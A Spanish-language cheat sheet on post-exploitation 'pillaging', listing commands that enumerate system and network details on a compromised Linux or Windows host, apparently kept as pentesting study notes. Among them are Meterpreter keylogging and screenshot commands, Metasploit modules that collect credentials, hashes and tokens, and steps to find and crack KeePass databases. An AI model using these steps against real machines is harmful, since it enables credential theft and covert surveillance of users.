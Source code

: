 El proceso de Pillaging es el de enumerar información relevante de la máquina explotada, tanto del sistema como de la red.


- Enumerar info del sistema en el objetivo:


**-Linux:**

uname -a ([kernel, OS, hostname, procesador](https://computernewage.com/2013/04/21/como-obtener-informacion-del-sistema-desde-la-terminal-de-linux/#sistema))

cat /etc/issue (distro + versión)

cat /etc/*release (distro + versión, codename en paréntesis)

env (para ver variables de entorno)

lscpu (info. CPU)

free -h (consumo RAM)

df -h (lista de discos duros y unidades montadas)

df -ht ext4 (sólo lista las unidades de formato ext4)

lsblk | grep sd (lista discos y filtra por anotación “sd”)

dpkg -l (lista de paquetes instalados en debian y sus versiones)


**-Meterpreter:**

getuid (para ver el usuario)

sysinfo (hostname, O.S. y Service Pack, arquitectura, idioma sistema y dominio ó hostname, distro + release version, kernel y arch)

C:\\Windows\system32\eula.txt (info OS, nº build, service pack)

show_mount (para mostrar todas las unidades activas)

screenshot para hacer captura de pantalla de la víctima (posiblemente revele información útil)

Keyloggear: keyscan_start -> keyscan_dump -> keyscan_stop

```
run post/windows/gather/TABULADOR #vemos todos los módulos post de enum que existen
run post/windows/gather/enum_appications #PARA VER LOS PROGRAMAS INSTALADOS Y SUS VERSIONES (si alguna es vulnerable podríamos atacarla)
run post/windows/gather/credentials/winscp #para encontrar contraaseñas de servicios
run post/windows/gather/credentials/credential_collector #para sacar usuarios, hashes y tokens disponibles.
```

Si la máquina víctima tiene un keepass instalado:

```
search -f *.kdb -r -d .
Si encontramos algo podríamos descargarlo y hacer un keepass2john o johntheripper directamente
```

**-Windows cmd:**

hostname (nombre del PC)

systeminfo (hostname, OS name, OS version, OS manufacturer, OS config, processor, Win directory, system directory, boot device, idiomas teclado y sistema, total physical memory (RAM), domain, logon server y hotfixes/actualizaciones, network card, hyper-v)

wmic qfe get Caption,Description,HotFixID,InstalledOn (info. adicional sobre los hotfixes/actualizaciones. Importante los security updates en cuanto a escalada de privilegios)


**Enumerar información de la red desde archivos en el objetivo:**

  

*Meterpreter:*

ifconfig (dirección IP + interfaces + MAC + IPv4 + Máscara)

netstat (listado servicios TCP/UDP activos y sus puertos + otros PCs en la red)

route (tabla de ruteo, gateway importante para pivoting)

arp (hosts conectados a la red)

route (ruteos de la red en IPv4)

  
*Linux:

ifconfig (tarjetas de red, MAC + IP + segmento)

ip a s (MAC, IP + segmento)

cat /etc/networks (interfaces y su configuración)

cat /etc/hosts (hosts + dominios locales)

cat /etc/resolv.conf (servidor DNS por defecto)

arp -a (hosts conectados a la red)

  
*Windows cmd:

ipconfig (adaptadores de red, sufijo DNS, direcciones IPv4 y 6, netmask y puerta de enlace)

ipconfig /all (hostname, IP routing enabled, MAC Address, DHCP enabled [IPs dinámicas], Lease expires, DHCPserver-gateway, DNS Server)

route print (routing table)

arp -a (todos los dispositivos en la red, IP y MAC)

netstat -ano (protocolos y puertos de los servicios [los 0.0.0.0 son del host])

netsh firewall show state (estado del firewall)

netsh advfirewall firewall dump (dumpea config file de firewall)

netsh advfirewall show allprofiles (si el firewall está activo o no)

wmic service get caption,started (para ver los servicios existentes)

wmic service where started=true get caption (para ver los servicios encendidos)

net view /domain (para ver info del dominio)

